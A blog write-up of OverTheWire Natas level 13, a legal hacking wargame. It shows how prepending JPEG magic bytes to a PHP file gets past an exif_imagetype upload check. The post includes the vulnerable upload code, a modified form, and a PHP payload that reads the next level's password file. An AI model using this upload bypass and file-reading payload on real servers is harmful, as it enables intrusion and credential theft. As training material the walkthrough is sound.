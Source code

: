 ```yaml
---
title: "OverTheWire Natas Level 13"
date: "2012-11-12T06:44:00-05:00"
comments: true
highlight: "true"
categories:
 - overthewire
 - wargames
 - exif
 - natas
 - php
 - hacking
---
```


[Level 13](http://www.overthewire.org/wargames/natas/natas13.shtml) of [OverTheWire's](http://www.overthewire.org) Natas wargame is extremely similar to Level 12. The only difference now, is that it's validating that the file is in fact an image. This however is flawed, as exif data can be faked.

<!-- more -->

It starts out with a similar upload prompt as last time.

{{% figure class="img-responsive" src="/img/natas13_1.png" %}}

The source code is super similar to last time.

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas13</h1> 
<div id="content"> 
For security reasons, we now only accept image files!<br/><br/> 

<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

Just like last time, I saved the HTML down to my local machine, and made 2 changes, for the url, and the filename. 

```
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>


<form enctype="multipart/form-data" action="http://natas13.natas.labs.overthewire.org/index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="file.php" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

The main difference to get around the exif changing in this case, is to put the JPEG magic-bytes into the beginning of the file. I found the JPEG magic-bytes by simply googling the [JPEG](http://www.digitalpreservation.gov/formats/fdd/fdd000018.shtml) file format</a>. 

I first created a small file that contained the magic bytes. 

```
mandreko$ echo -e "\xff\xd8\xff\xe0" > jpeg_magic
```

Next, I created my PHP script to upload (same as last level, except a new file to read). 

```
<?php
$file = file_get_contents('/etc/natas_webpass/natas14');
echo "\n" . $file;
?>
```

Then to combine these files, I just used "cat". 

```
mandreko$ cat jpeg_magic upload.php > upload2.php
```

I then uploaded "upload2.php" using my local HTML form that I created.

{{% figure class="img-responsive" src="/img/natas13_2.png" %}}

Just like that, it let me past the logic to verify it was an image type. Once I clicked on the link to the uploaded file, it showed me the magic-bytes, followed by the password to the next level.

{{% figure class="img-responsive" src="/img/natas13_3.png" %}}
